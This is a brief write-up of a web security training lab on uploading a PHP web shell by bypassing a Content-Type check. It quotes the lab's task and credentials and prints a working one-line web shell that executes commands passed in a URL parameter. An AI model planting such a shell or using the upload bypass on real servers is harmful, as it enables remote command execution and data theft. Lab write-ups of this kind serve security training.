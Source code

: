 


----

## 2. Lab: Web shell upload via Content-Type restriction bypass

**Instructions:**
This lab contains a vulnerable image upload function. It attempts to prevent users from uploading unexpected file types, but relies on checking user-controllable input to verify this.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

**Solution:**
Once you enter this lab you have the credentials with username : wiener  |  password : peter
and the you have the file upload but relies on checking user-controllable input to verify this
for this you can try to upload file that content the shell you can create this 

```PHP
<?php 
$output = shell_exec($_GET["cmd"]);
echo "<pre>$output</pre>";
?>
```

![](assets/1.png)
